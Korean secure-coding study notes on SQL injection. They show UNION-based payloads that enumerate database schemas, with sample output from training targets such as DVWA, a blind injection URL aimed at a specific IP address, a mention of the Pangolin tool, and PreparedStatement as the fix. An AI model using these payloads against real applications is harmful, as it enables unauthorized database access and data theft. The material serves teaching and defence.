   ```
  			userPw,
  			userName,
  			joinDate
  		from board_member
  		where userId = '$userId$' and userPw = '$userPw$' 
          where userId = #userId# and userPw = #userPw#
  	</select>	
  ```

- UNION SQL 삽입.

  - admin' union select 1,2,3,4# 
  - 에러 발생 갯수를 맞출때까지 해본다. => admin' union select 1,2,3,4,5,6#
  - 갯수가 출력이 된다 

  ```html
  MySQL 조회결과:    IDX: 1      ID: admin      PASSWORD: openeg      이름: 관리자
  IDX: 1      ID: 2      PASSWORD: 3      이름: 4
  ```

  - DB 의 모든 이름을 주세요라는 공격

  ```html
  p.198 

  admin' union select schema_name,2,3,4,5,6 from information_schema.schemata#
  MySQL 조회결과:    IDX: 1      ID: admin      PASSWORD: openeg      이름: 관리자
  IDX: information_schema      ID: 2      PASSWORD: 3      이름: 4
  IDX: board      ID: 2      PASSWORD: 3      이름: 4
  IDX: dvwa      ID: 2      PASSWORD: 3      이름: 4
  IDX: hacmebooks      ID: 2      PASSWORD: 3      이름: 4
  IDX: mysql      ID: 2      PASSWORD: 3      이름: 4
  IDX: openeg      ID: 2      PASSWORD: 3      이름: 4
  IDX: owasp10      ID: 2      PASSWORD: 3      이름: 4
  IDX: phpmyadmin      ID: 2      PASSWORD: 3      이름: 4
  IDX: puzzlemalldb      ID: 2      PASSWORD: 3      이름: 4
  ```

- 게시판의 결과가 GET방식  Number 로 나올 경우 , Blind Sql injection 시간이 오래 걸린다.

  ```html
  http://110.10.79.10:9900/board_view.asp?num=1723 and substring(db_name(),1,1) = 'a' --
  뒤의 알파뱃을 변경해가면서 DB명을 테스트. b가 정답.
  ```

- 도구를 이용하면 쉽게 할 수 있다. 판고린, Pangolin

- PreparedStatement

```java
// p.212 정적 쿼리를 사용하는게 제일 좋은 방법이다.
PreparedStatement st = null;
con = EConnection.getConnection(this);	
st = con.prepareStatement("select * from board_member where userid=?");
st.setString(1, id); // 첫번째 id 1
rs = st.executeQuery();
```
